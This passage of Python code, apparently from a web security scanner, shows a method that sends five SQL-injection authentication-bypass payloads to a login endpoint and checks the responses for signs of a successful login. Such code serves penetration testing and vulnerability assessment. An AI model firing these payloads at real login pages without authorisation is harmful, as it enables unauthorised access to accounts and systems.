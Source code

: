 ```python
                    'vulnerable': False
                })
        
        return results
    
    def test_authentication_bypass(self, login_endpoint):
        """Test authentication bypass techniques"""
        
        bypass_attempts = [
            {'username': "admin'--", 'password': 'anything'},
            {'username': "admin' OR '1'='1", 'password': 'anything'},
            {'username': "admin", 'password': "' OR '1'='1"},
            {'username': "admin' OR 1=1#", 'password': 'anything'},
            {'username': "' OR '1'='1'--", 'password': 'anything'}
        ]
        
        results = []
        
        for attempt in bypass_attempts:
            try:
                response = self.session.post(login_endpoint, data=attempt)
                
                # Check for successful login indicators
                success_indicators = [
                    'welcome',
                    'dashboard',
                    'logout',
                    'admin panel',
                    'profile'
                ]
                
                # Check for failure indicators
                failure_indicators = [
                    'invalid',
                    'incorrect',
                    'failed',
                    'error'
                ]
                
                success_found = any(indicator.lower() in response.text.lower() 
                                  for indicator in success_indicators)
                failure_found = any(indicator.lower() in response.text.lower() 
                                  for indicator in failure_indicators)
                
                if success_found and not failure_found:
                    results.append({
                        'username': attempt['username'],
                        'password': attempt['password'],
                        'success': True,
                        'response_length': len(response.text),
                        'status_code': response.status_code
                    })
                else:
                    results.append({
                        'username': attempt['username'],
                        'password': attempt['password'],
                        'success': False
                    })
                        
            except Exception as e:
                results.append({
                    'username': attempt['username'],
                    'password': attempt['password'],
```